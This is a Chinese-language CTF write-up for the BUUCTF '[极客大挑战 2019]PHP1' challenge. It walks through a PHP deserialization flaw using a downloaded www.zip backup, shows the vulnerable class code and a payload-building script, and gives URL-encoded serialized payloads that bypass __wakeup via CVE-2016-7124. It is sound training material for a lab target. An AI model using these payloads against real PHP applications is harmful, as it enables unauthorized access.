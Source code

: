 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶场/BUU_[极客大挑战 2019]PHP1.md","permalink":"/安全/靶场/BUU_[极客大挑战 2019]PHP1/","title":"BUU_[极客大挑战 2019]PHP1"}
---
```


这一题的主要考点是**PHP反序列化**
但是这都不是重点
重点是**猫猫可爱捏**
![Pasted image 20241008160503.png](/img/user/picture/Pasted%20image%2020241008160503.png)

首先给了我们一个信息，那就是这个网站存在备份，我们下载一下备份
`www.zip`(用工具扫一下就能扫出来)


在`index.php`中有一段php代码：
![Pasted image 20241008161408.png](/img/user/picture/Pasted%20image%2020241008161408.png)
也就是GET接收`select` 变量，在对其进行反序列化

主体在`class.php`中，我们看一下：
```php
<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```

我们构建：
```php
<?php  
  
class Name{  
    private $username = 'admin';  
    private $password = '100';  
      
}  
  
$a=new Name();  
echo serialize($a);  
?>
```
![Pasted image 20241008163235.png](/img/user/picture/Pasted%20image%2020241008163235.png)
注意要将里面那个方框乱码替换为`%00`
也就是：
```txt
O:4:%22Name%22:2:{s:14:%22%00Name%00username%22;s:5:%22admin%22;s:14:%22%00Name%00password%22;s:3:%22100%22;}
```

现在的输出情况：
![Pasted image 20241008163435.png](/img/user/picture/Pasted%20image%2020241008163435.png)

这里的原因是因为在反序列化的时候，会调用`__wakeup()`函数

解决这个问题可以利用漏洞`CVE-2016-7124`

+ 漏洞编号：CVE-2016-7124
+ 影响版本：PHP 5<5.6.25; PHP 7<7.0.10
+ 漏洞危害：如存在__wakeup方法，调用unserilize()方法前则先调用__wakeup方法，但序列化字符串中表示对象属性个数的值大于真实属性个数时会跳过__wakeup执行


我们查看一下PHP版本，发现在影响版本里面
![Pasted image 20241008163740.png](/img/user/picture/Pasted%20image%2020241008163740.png)

我们只需要简单修改一下payload即可：
```txt
O:4:%22Name%22:3:{s:14:%22%00Name%00username%22;s:5:%22admin%22;s:14:%22%00Name%00password%22;s:3:%22100%22;}
```

flag就拿到了：
![Pasted image 20241008163841.png](/img/user/picture/Pasted%20image%2020241008163841.png)

